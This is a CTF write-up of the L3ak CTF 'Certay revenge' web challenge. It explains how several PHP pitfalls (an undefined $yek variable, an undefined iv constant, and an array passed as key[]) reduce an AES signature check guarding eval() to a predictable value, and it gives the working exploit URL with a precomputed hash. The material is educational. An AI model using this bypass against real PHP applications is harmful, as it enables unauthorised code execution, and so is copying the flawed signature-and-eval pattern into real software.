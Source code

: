 ```yaml
---
title:  "Certay revenge Web Challenge - From L3ak CTF"
description: Web challenge from L3ak CTF, a simple note-taking system with user authentication, where the goal is to bypass the required hash using PHP language pitfalls.
image: 
  path: /assets/img/blog/attachments-certay/98412db5-a8b3-467e-aaaf-f3f6f8cbfd40.png
tags: [ctf, web, PHP, AES, pitfalls]
date:   2025-07-15 13:49:56 +0300
categories: [CTFs]
---
```

**Last Modified: 2025-07-14 06:51**

> Probably you need to understand our language to get some of the super powers?

The challenge mainly is about spotting pitfalls of PHP to be able to bypass bypass the required hash.

The web application is a simple note-taking system with user authentication:

1. **User Registration/Login**: Users can register and login via register.php and login.php
2. **Session Management**: PHP sessions track logged-in users with `$_SESSION['user_id']`
3. **Note Storage**: Users can store private notes via post_note.php
4. **Dashboard Access**: dashboard.php displays notes after signature verification

### Normal Authentication Flow
```php
// Login creates session
$_SESSION['user_id'] = $user_id;
$_SESSION['yek'] = openssl_random_pseudo_bytes(16); // 16-byte session key

// Dashboard requires both session AND signature verification
if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit;
}

// Additional signature check for sensitive operations
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Execute stored notes via eval()
}
```

### Encryption Implementation
#### Encryption Functions
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
```
#### Signature Verification Logic
```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Authentication successful - execute user notes
    eval($content);
}
```
**How it's supposed to work:**

1. `safe_sign($_GET['key'])` encrypts user input with server's secret `KEY`
2. Result becomes IV for `custom_sign()`
3. `custom_sign()` encrypts `$_GET['msg']` using session key `$yek`
4. Final result must match `$_GET['hash']`

The app takes three parameters and do that :
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716130912.png>)


## Exploit Chain
### PHP Language Pitfalls Exploited
#### Undefined Constant Behavior
```php
<?php
define('yek', $_SESSION['yek']);

// Later in code:
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```

**Pitfall**: `$yek` (variable) vs `yek` (constant)

- **Expected**: `$yek` should reference the constant `yek`
- **Reality**: `$yek` is an undefined variable, defaults to `null`, if you want to use the defined value you should use `yek` instead of `$yek`
- **Impact**: Encryption key becomes empty string instead of 16-byte session key (as the second parameter to `custom_sign() is the encryption key.)

####  Undefined Constant String Conversion

```php
return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
```

**Pitfall**: `iv` constant is never defined

- **Expected**: `iv` should be a defined constant
- **Reality**: PHP converts undefined constant to string `"iv"`. so the `iv` will become literally "iv"
- **Impact**: IV becomes predictable 2-byte string instead of random 16 bytes
####  OpenSSL IV Padding Behavior (it's not a pitfall)

```php
openssl_encrypt($data, 'aes-256-cbc', KEY, 0, "iv");
```
 AES-256-CBC requires exactly 16-byte IV

- **Input**: `"iv"` (2 bytes)
- **OpenSSL behavior**: Pads with null bytes to 16 bytes
- **Result**: `"iv\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"` (predictable)
#### 4. Array Parameter Handling

```php

if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**Pitfall**: `openssl_encrypt()` expects string, receives array

- **Input**: `key[]` creates `$_GET['key'] = []` (empty array)
- **OpenSSL behavior**: Returns :

```
Warning: openssl_encrypt() expects parameter 1 to be string, array given in /home/user/scripts/code.php on line 7
NULL
```
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716132852.png>)

- **Impact**: 

```php
// URL: dashboard.php?key[]

// Creates: $_GET['key'] = []

// Results in: safe_sign([]) → NULL

// Then: custom_sign($_GET['msg'], $yek, NULL)
// yek is also empty, we showed that previously

```

*The Real Signature Check is* :
```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```
but with such behaviors it becomes:
```php

custom_sign($_GET['msg'], null, NULL) === $_GET['hash']
``` 
which is :
```php
openssl_encrypt($_GET['msg'], 'aes-256-cbc', '', 0, NULL) === $_GET['hash']
```
**How NULL is Handled as IV**

When `NULL` which is `$yek` is passed as the IV parameter:

- **PHP converts `NULL` to empty string `""`**
- **OpenSSL pads empty string to 16 bytes with null bytes**
- **Effective IV becomes 16 null bytes**
*To make sure of this behavior i created this test:*

```php

// Test the actual behavior

$result1 = openssl_encrypt("test", 'aes-256-cbc', '', 0, NULL);

$result2 = openssl_encrypt("test", 'aes-256-cbc', '', 0, false);

$result3 = openssl_encrypt("test", 'aes-256-cbc', '', 0, "");

  

echo "NULL IV: " . $result1 . "\n";

echo "false IV: " . $result2 . "\n";

echo "empty string IV: " . $result3 . "\n";

?>

output :
NULL IV: 2HB5iFgiP0Vk00CxA/ZSew==

false IV: 2HB5iFgiP0Vk00CxA/ZSew==

empty string IV: 2HB5iFgiP0Vk00CxA/ZSew==

```

**So now all i need making these nested conditions returns true :**

```php
if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**All parameters now predictable:**

- **Message**: `$_GET['msg']` (user controlled)
- **$yek** : Empty
- **safe_sign($\_GET['key']))**: `''` (empty string from null, it's NULL because of `GET['key'` is set to `key[]` )

### Exploit

```
http://server/dashboard.php?msg=test&key[]=&hash=2HB5iFgiP0Vk00CxA%2FZSew%3D%3D
```

![Getting the Flag](<../assets/img/blog/attachments-certay/Screenshot 2025-07-14 161837.png>)
